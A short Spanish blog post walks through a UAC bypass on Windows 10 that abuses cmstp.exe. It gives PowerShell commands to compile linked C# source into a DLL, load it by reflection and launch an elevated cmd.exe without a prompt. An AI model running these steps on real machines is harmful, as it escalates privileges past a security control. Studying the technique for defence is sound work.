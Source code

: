 +++
date = "2018-11-23"
title = "Mocking the UAC - Bypasseando las nuevas versiones en Windows"
author = "Víctor Rodríguez"
toc = false
+++

Hace unos días, una nueva técnica llamada **mocking** vio la luz en el amplio abanico de métodos para bypassear el UAC (**User Account Control**) en las versiones más recientes de Windows, incluido Windows 10. Como es sabido, el UAC nos da una capa de seguridad ante posibles ataques de malware, evitando que se generen cambios en el registro, se creen ficheros, servicios, etc.

Siguiendo el trabajo de @zc00l y @Oddvar, compilando mediante la consola de powershell un pequeño script en C# que explota el servicio `cmstp.exe`, generamos una DLL que mediante **Reflection.Assembly** cargamos en el sistema, para luego ejecutarla.

[![/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_001.png](/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_001.png)](/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_001.png)

URL del código:

https://github.com/0xVIC/UAC/blob/master/source.cs

```powershell
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
```

El resultado es una DLL `CMSTP-UAC-Bypass.dll` que mediante el método **Assembly.GetExecuting** podemos cargar nuestra DLL y ejecutarla en la misma consola de powershell.

```powershell
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
```

```powershell
[CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

[![/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_002.png](/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_002.png)](/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_002.png)

Como resultado obtenemos una nueva ventana CMD de administrador evadiendo el control de acceso de usuarios de nuestra máquina.

[![/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_003.png](/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_003.png)](/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_003.png)

Por último observamos que el nivel de Control de cuentas de usuario está predefinido por el sistema en alto.

[![/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_004.png](/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_004.png)](/images/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows/mocking-the-uac-bypasseando-las-nuevas-versiones-en-windows_004.png)

Happy hacking.

0xVIC